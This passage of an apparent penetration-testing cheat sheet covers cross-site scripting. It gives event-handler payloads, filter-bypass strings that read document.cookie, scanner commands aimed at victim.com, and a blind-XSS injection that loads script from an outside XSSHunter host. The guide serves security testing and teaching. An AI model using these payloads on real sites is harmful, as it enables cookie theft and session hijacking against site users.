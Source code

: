 - Analyse within Burp to see if there are any requests

There are also HTML DOM Events we can abuse such as the following:

- **onmouseover**: Execute a JavaScript when moving the mouse pointer onto an image
- **onfocus**: Execute a JavaScript when an input field gets focus

```html
<img onmouseover="alert(1)" src="smiley.gif" alt="Smiley">
<input type="text" onfocus="alert(1)">
```

There is an high chance that it there a control to avoid basic XSS, here are some bypass techniques:

```html
<!-- Different Syntax or Encoding -->
"><script >alert(document.cookie)</script >
```

```html
<!-- Bypassing Non-Recursive Filtering -->
<scr<script>ipt>alert(document.cookie)</script>
```

Here below are some automated tools to find XSS

- [XSScrapy](https://github.com/DanMcInerney/xsscrapy) is an XSS/SQLi spider
- [XXXsniper](https://github.com/gbrindisi/xsssniper) is an XSS discovery tool with mass scanning functionalities
- [XSSer](https://github.com/epsylon/xsser) is an automatic -framework- to detect, exploit and report XSS vulnerabilities in web-based applications.
- [XSSHunter](https://xsshunter.com/) allows you to find all kinds of cross-site scripting vulnerabilities, including the often-missed blind XSS.
- [XSSTRON](https://github.com/RenwaX23/XSSTRON) is a Chromium Browser to find XSS Vulnerabilites automatically while browsing web

```bash
# XXScrapy
# Give it a URL and it'll test every link it finds for cross-site scripting and some SQL injection vulnerabilities.
./xsscrapy.py -u http://victim.com

# XSSsniper
# Scanning a single url with GET params
./xsssniper.py -u "http://victim.com/index.php?page=test"
# Scanning a single url with POST params
./xsssniper.py -u "http://victim.com/index.php" --post --data=POST_DATA
# Mass scan an entire website (form included)
./xsssniper.py -u "http://victim.com" --crawl --forms
```

For XSSHunter, you need to sign up on [this page](https://xsshunter.com/signup) whre you will get a subdomain.

Once it is done, we can then use this subdomain in your XSS testing, using injection attempts such as **">\<script src=//our.xss.ht>\</script>**.
